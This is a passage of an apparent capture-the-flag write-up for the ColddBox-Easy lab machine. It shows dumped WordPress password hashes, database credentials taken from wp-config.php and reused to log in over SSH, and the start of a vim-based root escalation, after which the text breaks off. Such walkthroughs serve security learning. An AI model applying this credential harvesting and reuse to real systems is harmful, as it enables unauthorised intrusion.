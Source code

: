 ```bash
user_login: hugo
 user_pass: $P$B2512D1ABvEkkcFZ5lLilbqYFT1plC/
*************************** 3. row ***************************
        id: 4
user_login: philip
 user_pass: $P$BXZ9bXCbA1JQuaCqOuuIiY4vyzjK/Y.
3 rows in set (0.00 sec)

```


## Privilege escalation

### www-data -> c0ldd

Using the information found earlier in the wp-config.php

```bash

```bash
define('DB_USER', 'c0ldd');
define('DB_PASSWORD', 'cybersecurity');
```

We can get access to c0ldd ssh acccount

```bash
$ ssh c0ldd@10.10.204.183 -p 4512
The authenticity of host '[10.10.204.183]:4512 ([10.10.204.183]:4512)' can't be established.
ECDSA key fingerprint is SHA256:xDx1I3ynEOfBDWPnJPLQG+C4XjZhBw/6Rig/bz2tMxM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.204.183]:4512' (ECDSA) to the list of known hosts.
c0ldd@10.10.204.183's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


Pueden actualizarse 66 paquetes.
44 actualizaciones son de seguridad.


Last login: Mon Oct 19 18:48:20 2020 from 10.0.1.4
c0ldd@ColddBox-Easy:~$ cat /home/c0ldd/user.txt
```

### c0ldd -> root

Let's see how we can get better privileges. 
Looks like we can run `vim`
